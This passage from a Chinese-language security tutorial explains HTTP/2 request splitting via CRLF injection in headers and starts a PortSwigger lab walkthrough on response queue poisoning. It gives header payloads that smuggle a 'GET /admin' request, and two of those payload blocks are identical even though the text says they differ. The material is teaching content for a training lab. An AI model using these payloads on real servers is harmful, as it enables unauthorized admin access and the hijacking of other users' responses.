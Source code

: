 ## 请求拆分

### 基本介绍

从上面的响应队列中毒中我们了解到了如何将一个 HTTP 请求拆分成为两个完整的请求，上面的例子拆分发生在消息体内部，但是当使用 HTTP/2 降级时，我们也可以使拆分发生在消息头中，例如：您甚至可以使用 GET 请求

```bash
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

### 重写请求

在报头中拆分请求时，我们需要了解前端服务器如何重写请求并在手动添加任何 HTTP/1 报头时考虑这一点，否则其中一个请求可能缺少强制标头，例如：您需要确保后端收到的两个请求都包含 host 头，在降级过程中前端服务器通常会去除:authority 伪标头并将其替换为新的 HTTP/1 主机标头，例如下面的重新请求：

```bash
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

在重写过程中一些前端服务器会将新的主机头附加到当前头列表的末尾，就 HTTP/2 前端而言是位于在 foo 头之后，需要注意的是请求在后端被拆分的点之后，这意味着第一个请求根本没有 host，而走私的请求有两个，在这种情况下您需要定位注入的 host 头，以便发生分割时它会出现在第一个请求中

```bash
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
```

靶场示例  
靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection)  
靶场介绍：本靶场容易受到请求走私的攻击，因为前端服务器会降级 HTTP/2 请求并且无法充分清理传入的标头，为了解决这个实验，你需要通过使用响应队列中毒进入位于/admin 的管理面板来删除用户 carlos，管理员用户大约每 10 秒登录一次  
靶场演示：  
使用 Burpsuite 抓包并更改协议为 HTTP/2，随后将路径更改为不存在的路径，比如：/x，这意味着我们正常情况下得到的都市 404 响应，但是如果我们一旦完成了对响应队列的毒化操作，那么我们将很容易识别到其他用户的响应信息
